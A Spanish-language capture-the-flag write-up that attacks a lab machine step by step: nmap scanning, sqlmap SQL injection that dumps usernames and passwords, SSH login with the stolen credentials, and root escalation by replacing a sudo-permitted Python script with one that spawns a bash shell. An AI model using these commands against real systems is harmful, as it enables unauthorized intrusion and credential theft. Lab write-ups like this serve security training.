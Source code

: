 ENUMERACIÓN

Empezaremos lanzando un nmap a la ip de la máquina objetivo 

```
sudo nmap -p- --open -sS -sC -sV --min-rate 5000 -n -vvv -Pn 172.18.0.2
```

Y este es el resultado:

```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 ea:6b:ef:51:9c:00:c4:d4:24:17:90:be:6d:0a:26:79 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBP8i149J/z+cyzaGJoDVXl5AHyo4BO3C5DzkkWxzNaB77Kpz4si3PNs2uorTw1yztfmGmCA8NIWeW+TAybx57ok=
|   256 62:97:b5:91:0c:b0:8f:06:bd:ad:e3:d5:14:3d:f1:74 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAINpY2NxmXtsHt71QdxZpHfmnjsqGymscWq6lf4kbIkVk
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.59 ((Debian))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: User Search
|_http-server-header: Apache/2.4.59 (Debian)
```

EXPLOTACIÓN

Iremos al puerto 80, la página web, donde vemos una web para buscar usuarios.

Al hacer una inyección sql manual no conseguimos explotarlo, probemos con *sqlmap*:

```
sqlmap --url http://172.18.0.2/ --dbs --forms --batch

[20:36:39] [INFO] fetching database names
available databases [2]:
[*] information_schema
[*] testdb
```

Nos saca la base de datos *testdb* , iremos por ahí para seguir sacando información. Ejecutamos el siguiente comando para ver que contiene:

```
sqlmap --url http://172.18.0.2/ -D testdb  --tables --forms --batch

[20:39:52] [INFO] fetching tables for database: 'testdb'
Database: testdb
[1 table]
+-------+
| users |
+-------+
```

Nos saca la tabla users, seguiremos haciendo inyecciones sql por aquí.
Con el siguiente comando veremos las columnas de la tabla users:

```
sqlmap --url http://172.18.0.2/ -D testdb -T users --columns --form --batch

Table: users
[3 columns]
+----------+-------------+
| Column   | Type        |
+----------+-------------+
| id       | int(11)     |
| password | varchar(50) |
| username | varchar(50) |
+----------+-------------+
```

Parece que vamos bien, ahora vamos a terminar la explotación sacando el contenido de estas dos columnas:

```
sqlmap --url http://172.18.0.2/ -D testdb -T users -C username,password --dump --columns --tables --forms --batch

Table: users
[3 entries]
+----------+---------------+
| username | password      |
+----------+---------------+
| admin    | adminpassword |
| user1    | user1password |
| kvzlx    | kvzlxpassword |
+----------+---------------+
```

Ahora al tener credenciales, probaremos entrar por ssh, he intentado acceder empezando por el usuario *admin* pero el único que tiene acceso por ssh es el usuario *kvzlx*

```
ssh kvzlx@172.18.0.2
```

ESCALADA DE PRIVILEGIOS

Para la escalada de privilegios siempre opto por hacer primero *sudo -l* y esta vez tuvimos suerte:

```
kvzlx@a590b61b572c:~$ sudo -l
Matching Defaults entries for kvzlx on a590b61b572c:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User kvzlx may run the following commands on a590b61b572c:
    (ALL) NOPASSWD: /usr/bin/python3 /home/kvzlx/system_info.py
```

Vemos que podemos ejecutar con python3 como root el script que se encuentra en la home de kvzlx. Vamos a ver que contiene dicho script:

```
import psutil


def print_virtual_memory():
    vm = psutil.virtual_memory()
    print(f"Total: {vm.total} Available: {vm.available}")


if __name__ == "__main__":
    print_virtual_memory()
```

Nada por lo que yo vea que me interesa. No tenemos permisos de escritura. Pero si tenemos permisos de escritura en la home de kvzlx. Por tanto vamos a cambiar el nombre del script que viene y crearemos nuestro propio script para que nos devuelva una bash como root:

```
mv /home/kvzlx/system_info.py /home/kvzlx/original.py
```

Ahora con echo creamos un script para poder ejecutarlo y que nos de la shell de root:

```
echo 'import os; os.system("/bin/bash")' > /home/kvzlx/system_info.py
```

Este script lo hemos sacado de gtfobins, al tener poder ejecutar como root python3.
Ahora ejecutamos el script:

```
kvzlx@a590b61b572c:~$ sudo /usr/bin/python3 /home/kvzlx/system_info.py

root@a590b61b572c:/home/kvzlx# whoami
root
```

Y finalmente pwned ;)
